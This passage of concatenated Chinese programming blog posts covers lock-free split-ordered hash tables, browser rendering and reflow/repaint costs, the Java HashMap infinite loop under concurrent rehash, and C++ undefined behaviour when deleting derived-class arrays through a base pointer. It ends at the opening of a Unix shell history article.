初始时，数组中除第0项外，所有项都为null。第0项指向一个仅有一个哨兵节点的链表，代表整条链的起点。初始时全貌见图7，其中浅绿色代表当前未使用的下标范围，虚线箭头代表逻辑上存在，但实际未建立的块。


##### 初始化下标操作

数组中为null的项都认为处于未初始化状态，初始化某个下标即代表建立其对应的哨兵节点。初始化是递归进行的，即若其父下标未初始化，则先初始化其父下标。（一个下标的父下标是其移除最高二进制位后得到的下标）大致代码如下：


**private** **void** initializeBucket(**int** bucketIdx) {

​    **int** parentIdx = bucketIdx ^ **Integer**.highestOneBit(bucketIdx);

​    **if** (getBucket(parentIdx) == **null**)

​        initializeBucket(parentIdx);

​    Node dummy = new Node();

​    dummy.hash = **Integer**.reverse(bucketIdx);

​    dummy.next = new AtomicReference&lt;&gt;();

​    setBucket(bucketIdx, listInsert(getBucket(parentIdx), dummy));

}


其中getBucket即封装过的获取数组某下标内容的方法，setBucket同理。listInsert将从指定位置开始查找适合插入的位置插入给定的节点，若链表中已存在hash相同的节点则返回那个已存在的节点；否则返回新插入的节点。

##### 插入操作

- 首先用HashMap的size对键的hashCode取模，得到应插入的数组下标。
- 然后判断该下标处是否为null，如果为null则初始化此下标。
- 构造一个新的节点，并插入到适当位置，注意节点中的hash值应为原hashCode经过位翻转并将最低位置1之后的值。
- 将节点个数计数器加1，若加1后节点过多，则仅需将size改为size*2，代表对数组扩容（ReHash）。

##### 查找操作

- 找出待查找节点在数组中的下标。
- 判断该下标处是否为null，如果为null则返回查找失败。
- 从相应位置进入链表，顺次寻找，直至找出待查找节点或超出本组节点范围。

##### 删除操作

- 找出应删除节点在数组中的下标。
- 判断该下标处是否为null，如果为null则初始化此下标。
- 找到待删除节点，并从链表中删除。（注意由于哨兵节点的存在，任何正常元素只被其唯一的前驱节点所引用，不存在被前驱节点与数组中指针同时引用的情况，从而不会出现需要同时修改多个指针的情况）
- 将节点个数计数器减1。

#### 参考文献

[《Split-Ordered Lists: Lock-Free Extensible Hash Tables》](http://www.cs.ucf.edu/~dcm/Teaching/COT4810-Spring2011/Literature/SplitOrderedLists.pdf)

（全文完）

# 浏览器的渲染原理简介

#####  [2013年05月22日 ](https://coolshell.cn/articles/9666.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [155 条评论](https://coolshell.cn/articles/9666.html#comments) 194,644 人阅读

看到这个标题大家一定会想到这篇神文《[How Browsers Work](http://taligarsiel.com/Projects/howbrowserswork1.htm)》，这篇文章把浏览器的很多细节讲得很细，而且也被[翻译成了中文](http://ux.sohu.com/topics/50972d9ae7de3e752e0081ff)。为什么我还想写一篇呢？因为两个原因，

1）这篇文章太长了，阅读成本太大，不能一口气读完。

2）花了大力气读了这篇文章后可以了解很多，但似乎对工作没什么帮助。

所以，我准备写下这篇文章来解决上述两个问题。希望你能在上班途中，或是坐马桶时就能读完，并能从中学会一些能用在工作上的东西。

目录


[浏览器工作大流程](https://coolshell.cn/articles/9666.html#浏览器工作大流程)[DOM解析](https://coolshell.cn/articles/9666.html#DOM解析)[CSS解析](https://coolshell.cn/articles/9666.html#CSS解析)[渲染](https://coolshell.cn/articles/9666.html#渲染)[减少reflow/repaint](https://coolshell.cn/articles/9666.html#减少reflowrepaint)[几个工具和几篇文章](https://coolshell.cn/articles/9666.html#几个工具和几篇文章)[参考](https://coolshell.cn/articles/9666.html#参考)

#### 浏览器工作大流程

废话少说，先来看个图：


从上面这个图中，我们可以看到那么几个事：


1）浏览器会解析三个东西：

- 一个是HTML/SVG/XHTML，事实上，Webkit有三个C++的类对应这三类文档。解析这三种文件会产生一个DOM Tree。

- CSS，解析CSS会产生CSS规则树。

- Javascript，脚本，主要是通过DOM API和CSSOM API来操作DOM Tree和CSS Rule Tree.

2）解析完成后，浏览器引擎会通过DOM Tree 和 CSS Rule Tree 来构造 Rendering Tree。注意：

- Rendering Tree 渲染树并不等同于DOM树，因为一些像Header或display:none的东西就没必要放在渲染树中了。

- CSS 的 Rule Tree主要是为了完成匹配并把CSS Rule附加上Rendering Tree上的每个Element。也就是DOM结点。也就是所谓的Frame。

- 然后，计算每个Frame（也就是每个Element）的位置，这又叫layout和reflow过程。

3）最后通过调用操作系统Native GUI的API绘制。

#### DOM解析

HTML的DOM Tree解析如下：

<html><html><head>    <title>Web page parsing</title></head><body>    <div>        <h1>Web page parsing</h1>        <p>This is an example Web page.</p>    </div></body></html>

上面这段HTML会解析成这样：


下面是另一个有SVG标签的情况。


#### CSS解析

CSS的解析大概是下面这个样子（下面主要说的是Gecko也就是Firefox的玩法），假设我们有下面的HTML文档：

<doc><title>A few quotes</title><para>  Franklin said that <quote>"A penny saved is a penny earned."</quote></para><para>  FDR said <quote>"We have nothing to fear but <span>fear itself.</span>"</quote></para></doc>

于是DOM Tree是这个样子：


然后我们的CSS文档是这样的：

  /* rule 1 */ doc { display: block; text-indent: 1em; }

/* rule 2 */ title { display: block; font-size: 3em; }

/* rule 3 */ para { display: block; }

/* rule 4 */ [class="emph"] { font-style: italic; }

于是我们的CSS Rule Tree会是这个样子：


注意，图中的第4条规则出现了两次，一次是独立的，一次是在规则3的子结点。所以，我们可以知道，建立CSS Rule Tree是需要比照着DOM Tree来的。CSS匹配DOM Tree主要是从右到左解析CSS的Selector，好多人以为这个事会比较快，其实并不一定。关键还看我们的CSS的Selector怎么写了。

**注意：CSS匹配HTML元素是一个相当复杂和有性能问题的事情。所以，你就会在N多地方看到很多人都告诉你，DOM树要小，CSS尽量用id和class，千万不要过渡层叠下去，……**

通过这两个树，我们可以得到一个叫Style Context Tree，也就是下面这样（把CSS Rule结点Attach到DOM Tree上）：


所以，Firefox基本上来说是通过CSS 解析 生成 CSS Rule Tree，然后，通过比对DOM生成Style Context Tree，然后Firefox通过把Style Context Tree和其Render Tree（Frame Tree）关联上，就完成了。注意：Render Tree会把一些不可见的结点去除掉。而**Firefox中所谓的Frame就是一个DOM结点，不要被其名字所迷惑了**。


注：Webkit不像Firefox要用两个树来干这个，Webkit也有Style对象，它直接把这个Style对象存在了相应的DOM结点上了。

#### 渲染

渲染的流程基本上如下（黄色的四个步骤）：

1. 计算CSS样式
2. 构建Render Tree
3. Layout – 定位坐标和大小，是否换行，各种position, overflow, z-index属性 ……
4. 正式开画


注意：上图流程中有很多连接线，这表示了Javascript动态修改了DOM属性或是CSS属会导致重新Layout，有些改变不会，就是那些指到天上的箭头，比如，修改后的CSS rule没有被匹配到，等。

这里重要要说两个概念，一个是Reflow，另一个是Repaint。这两个不是一回事。

- Repaint——屏幕的一部分要重画，比如某个CSS的背景色变了。但是元素的几何尺寸没有变。

- Reflow——意味着元件的几何尺寸变了，我们需要重新验证并计算Render Tree。是Render Tree的一部分或全部发生了变化。这就是Reflow，或是Layout。（**HTML使用的是flow based layout，也就是流式布局，所以，如果某元件的几何尺寸发生了变化，需要重新布局，也就叫reflow**）reflow 会从<html>这个root frame开始递归往下，依次计算所有的结点几何尺寸和位置，在reflow过程中，可能会增加一些frame，比如一个文本字符串必需被包装起来。

下面是一个打开Wikipedia时的Layout/reflow的视频（注：HTML在初始化的时候也会做一次reflow，叫 intial reflow），你可以感受一下：


Reflow的成本比Repaint的成本高得多的多。DOM Tree里的每个结点都会有reflow方法，一个结点的reflow很有可能导致子结点，甚至父点以及同级结点的reflow。**在一些高性能的电脑上也许还没什么，但是如果reflow发生在手机上，那么这个过程是非常痛苦和耗电的**。


所以，下面这些动作有很大可能会是成本比较高的。

- 当你增加、删除、修改DOM结点时，会导致Reflow或Repaint
- 当你移动DOM的位置，或是搞个动画的时候。
- 当你修改CSS样式的时候。
- 当你Resize窗口的时候（移动端没有这个问题），或是滚动的时候。
- 当你修改网页的默认字体时。

注：display:none会触发reflow，而visibility:hidden只会触发repaint，因为没有发现位置变化。

多说两句关于滚屏的事，通常来说，如果在滚屏的时候，我们的页面上的所有的像素都会跟着滚动，那么性能上没什么问题，因为我们的显卡对于这种把全屏像素往上往下移的算法是很快。但是如果你有一个fixed的背景图，或是有些Element不跟着滚动，有些Elment是动画，那么这个滚动的动作对于浏览器来说会是相当相当痛苦的一个过程。你可以看到很多这样的网页在滚动的时候性能有多差。因为滚屏也有可能会造成reflow。

基本上来说，reflow有如下的几个原因：

- Initial。网页初始化的时候。
- Incremental。一些Javascript在操作DOM Tree时。
- Resize。其些元件的尺寸变了。
- StyleChange。如果CSS的属性发生变化了。
- Dirty。几个Incremental的reflow发生在同一个frame的子树上。

好了，我们来看一个示例吧：

[javascript]var bstyle = document.body.style; // cache

bstyle.padding = "20px"; // reflow, repaint
bstyle.border = "10px solid red"; // 再一次的 reflow 和 repaint

bstyle.color = "blue"; // repaint
bstyle.backgroundColor = "#fad"; // repaint

bstyle.fontSize = "2em"; // reflow, repaint

// new DOM element – reflow, repaint
document.body.appendChild(document.createTextNode(‘dude!’));[/javascript]

当然，我们的浏览器是聪明的，它不会像上面那样，你每改一次样式，它就reflow或repaint一次。**一般来说，浏览器会把这样的操作积攒一批，然后做一次reflow，这又叫异步reflow或增量异步reflow**。但是有些情况浏览器是不会这么做的，比如：resize窗口，改变了页面默认的字体，等。对于这些操作，浏览器会马上进行reflow。

但是有些时候，我们的脚本会阻止浏览器这么干，比如：如果我们请求下面的一些DOM值：

1. offsetTop, offsetLeft, offsetWidth, offsetHeight
2. scrollTop/Left/Width/Height
3. clientTop/Left/Width/Height
4. IE中的 getComputedStyle(), 或 currentStyle

因为，如果我们的程序需要这些值，那么浏览器需要返回最新的值，而这样一样会flush出去一些样式的改变，从而造成频繁的reflow/repaint。

#### 减少reflow/repaint

下面是一些Best Practices：

**1）不要一条一条地修改DOM的样式。与其这样，还不如预先定义好css的class，然后修改DOM的className。**

[javascript]// bad
var left = 10,
top = 10;
el.style.left = left + "px";
el.style.top = top + "px";

// Good
el.className += " theclassname";

// Good
el.style.cssText += "; left: " + left + "px; top: " + top + "px;";[/javascript]

**2）把DOM离线后修改。如：**

- 使用documentFragment 对象在内存里操作DOM
- 先把DOM给display:none(有一次reflow)，然后你想怎么改就怎么改。比如修改100次，然后再把他显示出来。
- clone一个DOM结点到内存里，然后想怎么改就怎么改，改完后，和在线的那个的交换一下。

3）**不要把DOM结点的属性值放在一个循环里当成循环里的变量。**不然这会导致大量地读写这个结点的属性。

4）**尽可能的修改层级比较低的DOM**。当然，改变层级比较底的DOM有可能会造成大面积的reflow，但是也可能影响范围很小。

5）**为动画的HTML元件使用fixed或absoult的position**，那么修改他们的CSS是不会reflow的。

6）**千万不要使用table布局**。因为可能很小的一个小改动会造成整个table的重新布局。

> In this manner, the user agent can begin to lay out the table once the entire first row has been received. Cells in subsequent rows do not affect column widths. Any cell that has content that overflows uses the ‘overflow’ property to determine whether to clip the overflow content.
>
> [Fixed layout, CSS 2.1 Specification](http://www.w3.org/TR/CSS21/tables.html#fixed-table-layout)

> This algorithm may be inefficient since it requires the user agent to have access to all the content in the table before determining the final layout and may demand more than one pass.
>
> [Automatic layout, CSS 2.1 Specification](http://www.w3.org/TR/CSS21/tables.html#auto-table-layout)

#### 几个工具和几篇文章

有时候，你会也许会发现在IE下，你不知道你修改了什么东西，结果CPU一下子就上去了到100%，然后过了好几秒钟repaint/reflow才完成，这种事情以IE的年代时经常发生。所以，我们需要一些工具帮我们看看我们的代码里有没有什么不合适的东西。

- Chrome下，Google的[SpeedTracer](https://code.google.com/webtoolkit/speedtracer/)是个非常强悍的工作让你看看你的浏览渲染的成本有多大。其实Safari和Chrome都可以使用开发者工具里的一个Timeline的东东。

- Firefox下这个基于Firebug的叫[Firebug Paint Events](https://addons.mozilla.org/en-US/firefox/addon/firebug-paint-events/)的插件也不错。

- IE下你可以用一个叫[dynaTrace](http://ajax.dynatrace.com/pages/)的IE扩展。

最后，别忘了下面这几篇提高浏览器性能的文章：

- [Google – Web Performance Best Practices](https://code.google.com/speed/page-speed/docs/rules_intro.html)
- [Yahoo – Best Practices for Speeding Up Your Web Site](http://developer.yahoo.com/performance/rules.html)
- [Steve Souders – 14 Rules for Faster-Loading Web Sites](http://stevesouders.com/hpws/rules.php)

#### 参考

- David Baron的演讲：Fast CSS: How Browsers Lay Out Web Pages：[slideshow](https://dbaron.org/talks/2012-03-11-sxsw/slide-1.xhtml), [all slides](https://dbaron.org/talks/2012-03-11-sxsw/master.xhtml), [audio (MP3)](http://audio.sxsw.com/2012/podcasts/11-ACC-Fast_CSS_How_Browser_Layout.mp3), [Session page](http://schedule.sxsw.com/2012/events/event_IAP12909), [Lanyrd page](http://lanyrd.com/2012/sxsw-interactive/spmbt/)

- How Browsers Work: http://taligarsiel.com/Projects/howbrowserswork1.htm

- Mozilla 的 Style System Overview：https://developer.mozilla.org/en-US/docs/Style_System_Overview

- Mozilla 的 Note of reflow： http://www-archive.mozilla.org/newlayout/doc/reflow.html

- Rendering: repaint, reflow/relayout, restyle：http://www.phpied.com/rendering-repaint-reflowrelayout-restyle/

- Effective Rendering CSS：[http://css-tricks.com/efficiently-rendering-css/](https://css-tricks.com/efficiently-rendering-css/)

- Webkit Rendering文档：http://trac.webkit.org/wiki/WebCoreRendering

# 疫苗：JAVA HASHMAP的死循环

#####  [2013年05月10日 ](https://coolshell.cn/articles/9606.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [181 条评论](https://coolshell.cn/articles/9606.html#comments) 305,319 人阅读

在淘宝内网里看到同事发了贴说了一个CPU被100%的线上故障，并且这个事发生了很多次，原因是在Java语言在并发情况下使用HashMap造成Race Condition，从而导致死循环。这个事情我4、5年前也经历过，本来觉得没什么好写的，因为Java的HashMap是非线程安全的，所以在并发下必然出现问题。但是，我发现近几年，很多人都经历过这个事（在网上查“HashMap Infinite Loop”可以看到很多人都在说这个事）所以，觉得这个是个普遍问题，需要写篇疫苗文章说一下这个事，并且给大家看看一个完美的“Race Condition”是怎么形成的。

目录


[问题的症状](https://coolshell.cn/articles/9606.html#问题的症状)[Hash表数据结构](https://coolshell.cn/articles/9606.html#Hash表数据结构)[HashMap的rehash源代码](https://coolshell.cn/articles/9606.html#HashMap的rehash源代码)[正常的ReHash的过程](https://coolshell.cn/articles/9606.html#正常的ReHash的过程)[并发下的Rehash](https://coolshell.cn/articles/9606.html#并发下的Rehash)[其它](https://coolshell.cn/articles/9606.html#其它)

#### 问题的症状

从前我们的Java代码因为一些原因使用了HashMap这个东西，但是当时的程序是单线程的，一切都没有问题。后来，我们的程序性能有问题，所以需要变成多线程的，于是，变成多线程后到了线上，发现程序经常占了100%的CPU，查看堆栈，你会发现程序都Hang在了HashMap.get()这个方法上了，重启程序后问题消失。但是过段时间又会来。而且，这个问题在测试环境里可能很难重现。

我们简单的看一下我们自己的代码，我们就知道HashMap被多个线程操作。而Java的文档说HashMap是非线程安全的，应该用ConcurrentHashMap。

但是在这里我们可以来研究一下原因。


#### Hash表数据结构

我需要简单地说一下HashMap这个经典的数据结构。

HashMap通常会用一个指针数组（假设为table[]）来做分散所有的key，当一个key被加入时，会通过Hash算法通过key算出这个数组的下标i，然后就把这个<key, value>插到table[i]中，如果有两个不同的key被算在了同一个i，那么就叫冲突，又叫碰撞，这样会在table[i]上形成一个链表。

我们知道，如果table[]的尺寸很小，比如只有2个，如果要放进10个keys的话，那么碰撞非常频繁，于是一个O(1)的查找算法，就变成了链表遍历，性能变成了O(n)，这是Hash表的缺陷（可参看《[Hash Collision DoS 问题](https://coolshell.cn/articles/6424.html)》）。

所以，Hash表的尺寸和容量非常的重要。一般来说，Hash表这个容器当有数据要插入时，都会检查容量有没有超过设定的thredhold，如果超过，需要增大Hash表的尺寸，但是这样一来，整个Hash表里的无素都需要被重算一遍。这叫rehash，这个成本相当的大。

相信大家对这个基础知识已经很熟悉了。

#### HashMap的rehash源代码

下面，我们来看一下Java的HashMap的源代码。

Put一个Key,Value对到Hash表中：

**public** V put(K key, V value)

{

​    ......

​    //算Hash值

​    **int** hash = hash(key.hashCode());

​    **int** i = indexFor(hash, table.length);

​    //如果该key已被插入，则替换掉旧的value （链接操作）

​    **for** (Entry<K,V> e = table[i]; e != **null**; e = e.next) {

​        Object k;

​        **if** (e.hash == hash && ((k = e.key) == key || key.equals(k))) {

​            V oldValue = e.value;

​            e.value = value;

​            e.recordAccess(**this**);

​            **return** oldValue;

​        }

​    }

​    modCount++;

​    //该key不存在，需要增加一个结点

​    addEntry(hash, key, value, i);

​    **return** **null**;

}

检查容量是否超标

**void** addEntry(**int** hash, K key, V value, **int** bucketIndex)

{

​    Entry<K,V> e = table[bucketIndex];

​    table[bucketIndex] = new Entry<K,V>(hash, key, value, e);

​    //查看当前的size是否超过了我们设定的阈值threshold，如果超过，需要resize

​    **if** (size++ >= threshold)

​        resize(2 * table.length);

} 

新建一个更大尺寸的hash表，然后把数据从老的Hash表中迁移到新的Hash表中。

**void** resize(**int** newCapacity)

{

​    Entry[] oldTable = table;

​    **int** oldCapacity = oldTable.length;

​    ......

​    //创建一个新的Hash Table

​    Entry[] newTable = new Entry[newCapacity];

​    //将Old Hash Table上的数据迁移到New Hash Table上

​    transfer(newTable);

​    table = newTable;

​    threshold = (**int**)(newCapacity * loadFactor);

}

迁移的源代码，注意高亮处：

**void** transfer(Entry[] newTable)

{

​    Entry[] src = table;

​    **int** newCapacity = newTable.length;

​    //下面这段代码的意思是：

​    //  从OldTable里摘一个元素出来，然后放到NewTable中

​    **for** (**int** j = 0; j < src.length; j++) {

​        Entry<K,V> e = src[j];

​        **if** (e != **null**) {

​            src[j] = **null**;

​            **do** {

​                Entry<K,V> next = e.next;

​                **int** i = indexFor(e.hash, newCapacity);

​                e.next = newTable[i];

​                newTable[i] = e;

​                e = next;

​            } **while** (e != **null**);

​        }

​    }

} 

好了，这个代码算是比较正常的。而且没有什么问题。

#### 正常的ReHash的过程

画了个图做了个演示。

- 我假设了我们的hash算法就是简单的用key mod 一下表的大小（也就是数组的长度）。

- 最上面的是old hash 表，其中的Hash表的size=2, 所以key = 3, 7, 5，在mod 2以后都冲突在table[1]这里了。

- 接下来的三个步骤是Hash表 resize成4，然后所有的<key,value> 重新rehash的过程


#### 并发下的Rehash

**1）假设我们有两个线程。**我用红色和浅蓝色标注了一下。

我们再回头看一下我们的 transfer代码中的这个细节：

**do** {

​    Entry<K,V> next = e.next; // <--假设线程一执行到这里就被调度挂起了

​    **int** i = indexFor(e.hash, newCapacity);

​    e.next = newTable[i];

​    newTable[i] = e;

​    e = next;

} **while** (e != **null**);

而我们的线程二执行完成了。于是我们有下面的这个样子。



注意，**因为Thread1的 e 指向了key(3)，而next指向了key(7)，其在线程二rehash后，指向了线程二重组后的链表**。我们可以看到链表的顺序被反转后。

**2）线程一被调度回来执行。**

- **先是执行 newTalbe[i] = e;**
- **然后是e = next，导致了e指向了key(7)，**
- **而下一次循环的next = e.next导致了next指向了key(3)**


**3）一切安好。**

线程一接着工作。**把key(7)摘下来，放到newTable[i]的第一个，然后把e和next往下移**。


**4）环形链接出现。**

**e.next = newTable[i] 导致 key(3).next 指向了 key(7)**

**注意：此时的key(7).next 已经指向了key(3)， 环形链表就这样出现了。**


**于是，当我们的线程一调用到，HashTable.get(11)时，悲剧就出现了——Infinite Loop。**

#### 其它

有人把这个问题报给了Sun，不过Sun不认为这个是一个问题。因为HashMap本来就不支持并发。要并发就用ConcurrentHashmap

http://bugs.sun.com/bugdatabase/view_bug.do?bug_id=6423457

我在这里把这个事情记录下来，只是为了让大家了解并体会一下并发环境下的危险。

参考：[http://mailinator.blogspot.com/2009/06/beautiful-race-condition.html](https://mailinator.blogspot.com/2009/06/beautiful-race-condition.html)

（全文完）

# “C++的数组不支持多态”？

#####  [2013年04月29日 ](https://coolshell.cn/articles/9543.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [180 条评论](https://coolshell.cn/articles/9543.html#comments) 90,745 人阅读

先是在微博上看到了个[微博](http://weibo.com/1876004965/zueproucp)和云风的评论，然后我回了“楼主对C的内存管理不了解”。

[](https://coolshell.cn/wp-content/uploads/2013/04/weibo.jpg)

后来引发了很多人的讨论，大量的人又借机来黑C++，比如：

> //[@Baidu-ThursdayWang](http://weibo.com/n/Baidu-ThursdayWang):这不就c++弱爆了的地方吗，需要记忆太多东西
>
> //[@编程浪子张发财](http://weibo.com/n/编程浪子张发财):这个跟C关系真不大。不过我得验证一下，感觉真的不应该是这样的。如果基类的析构这种情况不能 调用，就太弱了。
>
> //[@程序元](http://weibo.com/1401324585)：现在看来，当初由于毅力不够而没有深入纠缠c++语言特性的各种犄角旮旯的坑爹细枝末节，实是幸事。为现在还沉浸于这些诡异特性并乐此不疲的同志们感到忧伤。

然后，也出现了一些乱七八糟的理解：


> //[@BA5BO](http://weibo.com/n/BA5BO): 数组是基于拷贝的，而多态是基于指针的，派生类赋值给基类数组只是拷贝复制了一个基类新对象，当然不需要派生类析构函数
>
> //[@编程浪子张发财](http://weibo.com/n/编程浪子张发财):我突然理解是怎么回事了，这种情况下数组中各元素都是等长结构体，类型必须一致，的确没法多态。这跟C#和java不同。后两者对于引用类型存放的是对象指针。

等等，看来我必需要写一篇博客以正视听了。

因为没有看到上下文，我就猜测讨论的可能会是下面这两种情况之一：

1) 一个Base*[]的指针数组中，存放了一堆派生类的指针，这样，你delete [] pBase; 只是把指针数组给删除了，并没有删除指针所指向的对象。这个是最基础的C的问题。你先得for这个指针数组，把数据里的对象都delete掉，然后再删除数组。很明显，这和C++没有什么关系。

2）第二种可能是：Base *pBase = new Derived[n] 这样的情况。这种情况下，delete[] pBase 明显不会调用虚析构函数（当然，这并不一定，我后面会说） ，这就是上面云风回的微博。对此，我觉得如果是这个样子，这个程序员**完全没有搞懂C语言中的指针和数组是怎么一回事**，也没有搞清楚， 什么是对象，什么是对象的指针和引用，这完全就是C语言没有学好。

后来，在看到了 [@GeniusVczh](http://weibo.com/n/GeniusVczh) 的原文 《[如何设计一门语言（一）——什么是坑(a)](http://www.cppblog.com/vczh/archive/2013/04/27/199765.html)》最后时，才知道了说的是第二种情况。也就是下面的这个示例（我加了虚的析构函数这样方便编译）：

```
class Base
{
  public:
    virtual ~B(){ cout <<"B::~B()"<<endl; }
};

class Derived : public Base
{
  public:
    virtual ~D() { cout <<"D::D~()"<<endl; }
};

Base* pBase = new Derived[10];
delete[] pBase;
```

#### C语言补课

我先不说这段C++的程序在什么情况下能正确调用派生类的析构函数，我还是先来说说C语言，这样我在后面说这段代码时你就明白了。

对于上面的：

```
Base* pBase = new Derived[10];
```

这个语言和下面的有什么不同吗？

```
Derived d[10];

Base* pBase = d;
```

一个是堆内存动态分配，一个是栈内存静态分配。只是内存的位置和类型不一样，在语法和使用上没有什么不一样的。（如果你把Base 和 Derived想成struct，把new想成malloc() ，你还觉得这和C++有什么关系吗？）

**那么，你觉得pBase这个指针是指向对象的，是对象的引用，还是指向一个数组的，是数组的引用？**

于是乎，你可以想像一下下面的场景：

```
int *pInt; char* pChar;

pInt = (int*)malloc(10*sizeof(int));

pChar = (char*)pInt;
```

**对上面的pInt和pChar指针来说，pInt[3]和pChar[3]所指向的内容是否一样呢？当然不一样，因为int是4个字节，char是1个字节，步长不一样，所以当然不一样。**

**那么再回到那个把Derived[]数组的指针转成Base类型的指针pBase，那么pBase[3]是否会指向正确的Derrived[3]呢？**

我们来看个纯C语言的例程，下面有两个结构体，就像继承一样，我还别有用心地加了一个void *vptr，好像虚函数表一样：

```
    struct A {
        void *vptr;
        int i;
    };

    struct B{
        void *vptr;
        int i;
        char c;
        int j;
    }b[2] ={
        {(void*)0x01, 100, 'a', -1},
        {(void*)0x02, 200, 'A', -2}
    };
```

注意：我用的是G++编译的，在64bits平台上编译的，其中的sizeof(void*)的值是8。

我们看一下栈上内存分配：

```
    struct A *pa1 = (struct A*)(b);
```

用gdb我们可以看到下面的情况：(pa1[1]的成员的值完全乱掉了)

```
(gdb) p b
$7 = {{vptr = 0x1, i = 100, c = 97 'a', j = -1}, {vptr = 0x2, i = 200, c = 65 'A', j = -2}}
(gdb) p pa1[0]
$8 = {vptr = 0x1, i = 100}
(gdb) p pa1[1]
$9 = {vptr = 0x7fffffffffff, i = 2}
```

我们再来看一下堆上的情况：（我们动态了struct B [2]，然后转成struct A *，然后对其成员操作）

```
    struct A *pa = (struct A*)malloc(2*sizeof(struct B));
    struct B *pb = (struct B*)pa；

    pa[0].vptr = (void*) 0x01;
    pa[1].vptr = (void*) 0x02;

    pa[0].i = 100;
    pa[1].i = 200;
```

用gdb来查看一下变量，我们可以看到下面的情况：（pa没问题，但是pb[1]的内存乱掉了）

```
(gdb) p pa[0]
$1 = {vptr = 0x1, i = 100}
(gdb) p pa[1]
$2 = {vptr = 0x2, i = 200}
(gdb) p pb[0]
$3 = {vptr = 0x1, i = 100, c = 0 '\000', j = 2}
(gdb) p pb[1]
$4 = {vptr = 0xc8, i = 0, c = 0 '\000', j = 0}
```

可见，这完全就是C语言里乱转型造成了内存的混乱，这和C++一点关系都没有。而且，C++的任何一本书都说过，父类对象和子类对象的转型会带来严重的内存问题。

但是，如果在64bits平台下，如果把我们的structB改一下，改成如下（把struct B中的int j给注释掉）：

```
    struct A {
        void *vptr;
        int i;
    };

    struct B{
        void *vptr;
        int i;
        char c;
        //int j; <---注释掉int j
    }b[2] ={
        {(void*)0x01, 100, 'a'},
        {(void*)0x02, 200, 'A'}
    };
```

你就会发现，上面的内存混乱的问题都没有了，因为struct A和struct B的size是一样的：

```
(gdb) p sizeof(struct A)
$6 = 16
(gdb) p sizeof(struct B)
$7 = 16
```

注：如果不注释int j，那么sizeof(struct B)的值是24。

这就是C语言中的内存对齐，内存对齐的原因就是为了更快的存取内存（详见《[深入理解C语言](https://coolshell.cn/articles/5761.html)》）

如果内存对齐了，而且struct A中的成员的顺序在struct B中是一样的而且在最前面话，那么就没有问题。

#### 再来看C++的程序

如果你看过我5年前写的《**[C++虚函数表解析](http://blog.csdn.net/haoel/article/details/1948051)**》以及《**C++内存对象布局 [上篇](http://blog.csdn.net/haoel/article/details/3081328)、[下篇](http://blog.csdn.net/haoel/article/details/3081385)**》，你就知道C++的标准会把虚函数表的指针放在类实例的最前面，你也就知道为什么我别有用心地在struct A和struct B前加了一个 void *vptr。C++之所以要加在最前面就是为了转型后，不会找不到虚表了。

好了，到这里，我们再来看C++，看下面的代码：

```
#include
using namespace std;

class B
{
  int b;
  public:
    virtual ~B(){ cout <<"B::~B()"<<endl; }
};

class D: public B
{
  int i;
  public:
    virtual ~D() { cout <<"D::~D()"<<endl; }
};

int main(void)
{
    cout << "sizeB:" << sizeof(B) << " sizeD:"<< sizeof(D) <<endl;
    B *pb = new D[2];

    delete [] pb;

    return 0;
}
```

**上面的代码可以正确执行，包括调用子类的虚函数！因为内存对齐了**。在我的64bits的CentOS上——sizeof(B):16 ，sizeof(D):16

**但是，如果你在class D中再加一个int成员的问题，这个程序就Segmentation fault了**。因为—— sizeof(B):16 ，sizeof(D):24。pb[1]的虚表找到了一个错误的内存上，内存乱掉了。

再注：我在Visual Studio 2010上做了一下测试，对于 struct 来说，其表现和gcc的是一样的，但对于class的代码来说，其可以“正确调用到虚函数”无论父类和子类有没有一样的size。

然而，在C++的标准中，下面这样的用法是undefined! 你可以看看StackOverflow上的相关问题讨论：《[Why is it undefined behavior to delete[\] an array of derived objects via a base pointer?](http://stackoverflow.com/questions/6171814/why-is-it-undefined-behavior-to-delete-an-array-of-derived-objects-via-a-base)》（同样，你也可以看看《More Effective C++》中的条款三）

```
Base* pBase = new Derived[10];

delete[] pBase;
```

所以，微软C++编程译器define这个事让我非常不解，对微软的C++编译器再度失望，看似默默地把其编译对了很漂亮，实则误导了好多人把这种undefined的东西当成defined来用，还赞扬做得好，真是令人无语。**（**[就像微博上的这个贴一样](http://weibo.com/2087077260/zup0V7LLM)，说VC多么牛，还说这是OO的特性。我勒个去！**）**

[](https://coolshell.cn/wp-content/uploads/2013/04/hehe.png)

现在，你终于知道Base* pBase = new Derived[10];这个问题是C语言的转型的问题，你也应该知道用于数组的指针是怎么回事了吧？**这是一个很奇葩的代码！请你不要像那些人一样在微博上和这里的评论里高呼并和我理论到：“微软的C++编译器支持这个事！”。**

最后，我越来越发现，**很多说C++难用的人，其实是不懂C语言**。

（全文完）

# UNIX考古记：一个“遗失”的SHELL

#####  [2013年04月26日 ](https://coolshell.cn/articles/9410.html) [Leo](https://coolshell.cn/articles/author/full_of_bull) 评论 [26 条评论](https://coolshell.cn/articles/9410.html#comments) 48,529 人阅读

**(感谢网友Leo投递此文)**

谨以此文纪念伟大的计算机科学巨匠[Ken Thompson](https://en.wikipedia.org/wiki/Ken_Thompson)和[Dennis Ritchie](https://en.wikipedia.org/wiki/Dennis_Ritchie)，并同时向其他所有为Unix发展做出贡献的黑客致敬。

目录


[历史的尘埃](https://coolshell.cn/articles/9410.html#历史的尘埃)[命令结构和规范](https://coolshell.cn/articles/9410.html#命令结构和规范)[解释器的原理与实现](https://coolshell.cn/articles/9410.html#解释器的原理与实现)[预处理(preprocessor)](https://coolshell.cn/articles/9410.html#预处理preprocessor)[词法扫描(lexical scanning)](https://coolshell.cn/articles/9410.html#词法扫描lexical_scanning)[语法分析(syntax parser)](https://coolshell.cn/articles/9410.html#语法分析syntax_parser)[语义分析(Semantic Analyzer)](https://coolshell.cn/articles/9410.html#语义分析Semantic_Analyzer)[执行命令(Executor)](https://coolshell.cn/articles/9410.html#执行命令Executor)[孰优孰劣](https://coolshell.cn/articles/9410.html#孰优孰劣)[Thompson Again Shell?](https://coolshell.cn/articles/9410.html#Thompson_Again_Shell)[一些感想](https://coolshell.cn/articles/9410.html#一些感想)[参考资料](https://coolshell.cn/articles/9410.html#参考资料)

#### 历史的尘埃

